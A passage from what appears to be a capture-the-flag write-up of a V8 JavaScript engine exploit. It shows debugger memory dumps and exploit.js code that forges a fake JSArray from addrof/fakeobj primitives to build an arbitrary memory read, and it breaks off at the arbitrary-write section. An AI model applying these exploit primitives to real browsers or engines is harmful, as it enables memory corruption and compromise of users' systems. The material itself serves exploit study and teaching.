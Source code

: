     0x8750808691c:  0x9999999a      0x40019999      0x66666666      0x400a6666 <-- [2] == 2.2, [3] == 3.3
    0x8750808692c:  0x08241909      0x080406e9      0x08086905      0x00000008 <-- JSArray map, prop, elements, length
    

Next, I’ll create a fake object located at `addrof(arr2) - 0x20`. This lines
up with the 0 element, which I’ve already started setting up to contain a map
and properties. I’ll set the 1 element to be eight bytes before the address I
want to read, and the length to 1 (so 2):

    
    
    d8> arr2[1] = itof((2n<<32n) + 0x808694dn - 8n)
    4.3105762977e-314
    d8> ^C
    Thread 1 "d8" received signal SIGINT, Interrupt.
    __GI___libc_read (nbytes=0x400, buf=0x55be0d8e3eb0, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
    26      in ../sysdeps/unix/sysv/linux/read.c
    gef➤  x/16xw 0x08750808692d-1-0x30
    0x875080868fc:  0x00000000      0xfffffffe      0x08040a3d      0x00000008
    0x8750808690c:  0x08241909      0x080406e9      0x08086945      0x00000002 <-- fake map, props, elements, len
    0x8750808691c:  0x9999999a      0x40019999      0x66666666      0x400a6666
    0x8750808692c:  0x08241909      0x080406e9      0x08086905      0x00000008
    

Now if I read `fake[0]`, it will return the double located at 0x808694d (minus
1 for pointers):

    
    
    d8> ftoi(fake[0]).toString(16)
    "208040975"
    d8> ^C
    Thread 1 "d8" received signal SIGINT, Interrupt.
    __GI___libc_read (nbytes=0x400, buf=0x55be0d8e3eb0, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
    26      in ../sysdeps/unix/sysv/linux/read.c
    gef➤  x/xg 0x8750808694c
    0x8750808694c:  0x0000000208040975
    

I’ll add that as a clean function to my `exploit.js` file:

    
    
    var arr2 = [itof(float_array_map), 1.1, 2.2, 3.3];
    var fake = fakeobj(addrof(arr2)-0x20n);
    
    function arbread(addr) {
        if (addr % 2n == 0) {
            addr += 1;
        }
        arr2[1] = itof((2n << 32n) + addr - 8n);
        return (fake[0]);
    }
    

#### arbwrite

